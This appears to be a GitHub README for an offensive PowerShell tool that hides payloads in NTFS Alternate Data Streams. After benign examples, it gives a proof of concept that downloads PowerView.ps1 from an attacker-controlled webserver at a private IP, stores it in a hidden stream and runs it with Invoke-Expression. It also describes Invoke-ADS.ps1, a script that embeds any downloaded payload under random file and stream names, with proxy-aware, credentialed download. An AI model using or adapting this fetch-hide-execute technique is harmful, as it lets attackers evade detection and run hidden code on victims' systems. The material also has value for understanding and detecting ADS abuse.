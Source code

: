 # Alternate-Data-Streams with PowerShell

I literally stumbled upon this whislt reading up on the parameters for the Get-Content and Set-Content cmdlets for another piece of research.
The paramemeter that got my interest is -Stream which allows the user the ability to read and write NTFS alternate data streams.
If we create a file with the following commands;
```powershell
$file = "$env:TEMP\test.txt"
Set-Content -Path $file -Value 'Alternate Data Stream Test File'
```
To read the file content, we use the following;
```powershell
Get-Content -Path $file
```
Which will return;
```powershell
Alternate Data Stream Test File
```

## Hiding Content
As I mentioned above the -Stream parameter lets the user access the 'Hidden' NTFS Alternate Data Stream.
A simple example using the file created above;
```powershell
Add-Content -Path $file -Value 'Hidden Data' -Stream 'hiddenstream'

Get-Content -Path $file -Stream 'hiddenstream'
```
## Something More Useful
This is great, however not so much use, so what if we could hide something a touch more useful, say PowerView?
Taking the simple Proof of Concept - alternate-data-stream.txt from the repository, we create a new file as above, put some content in the file, however we now dowload a payload, (PowerView.ps1 in this example), from a webserver we control and hide it in an NFTS Alternate Data Stream, (called powerview).Finally we grab the content from the ADS and execute it.

```powershell
$file = "$env:TEMP\test.txt"
Set-Content -Path $file -Value 'Alternate Data Stream Test File'
Get-Content -Path $file
Alternate Data Stream Test File

$pvfile = Invoke-WebRequest -Uri http://192.168.0.105:8000/powerview.ps1
Add-Content -Encoding Byte -Path $file -Value $pvfile.Content -Stream 'powerview'
Invoke-Expression (Get-Content -Path $file -Stream 'powerview' -Raw)
```

Taking things further I out together a PowerShell script that creates a random filename with a randomish amount of random content and a random ADS name. The script asks the user for the uri of the payload to download and embed into the freshly created file. Also in this example the dowload process is able to detect webproxy settings and use the current users credentials, (Proxy Aware).

## The script should be ran . sourced i.e.
```powershell
. ./Invoke-ADS.ps1
```